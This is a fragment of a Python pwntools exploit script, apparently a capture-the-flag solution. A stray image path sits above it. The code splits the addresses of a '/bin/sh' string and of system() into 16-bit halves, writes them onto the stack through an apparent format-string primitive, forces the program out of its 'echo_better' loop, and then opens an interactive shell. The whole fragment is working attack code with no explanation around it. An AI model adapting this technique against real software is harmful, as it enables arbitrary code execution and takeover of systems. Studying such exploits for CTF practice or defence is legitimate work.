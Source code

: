 ```

sh_low = sh_addr & 0xffff
sh_mid = (sh_addr >> 16) & 0xffff
sh_high = (sh_addr >> 32) & 0xffff
print hex(sh_low)
print hex(stack_addr2_low -16)
edit1(stack_addr2_low - 16)
edit2(sh_low)
edit1(stack_addr2_low - 14)
edit2(sh_mid)
edit1(stack_addr2_low - 12)
edit2(sh_high)


### system

system_low = system_addr & 0xffff
system_mid = (system_addr >> 16) & 0xffff
system_high = (system_addr >> 32) & 0xffff

edit1(stack_addr2_low -8)
edit2(system_low)
edit1(stack_addr2_low -6)
edit2(system_mid)
edit1(stack_addr2_low -4)
edit2(system_high)


###send to 100 ,let it out of echo_better
for i in range(0,80) :
   p.sendline('wait')

pause()

p.interactive()
```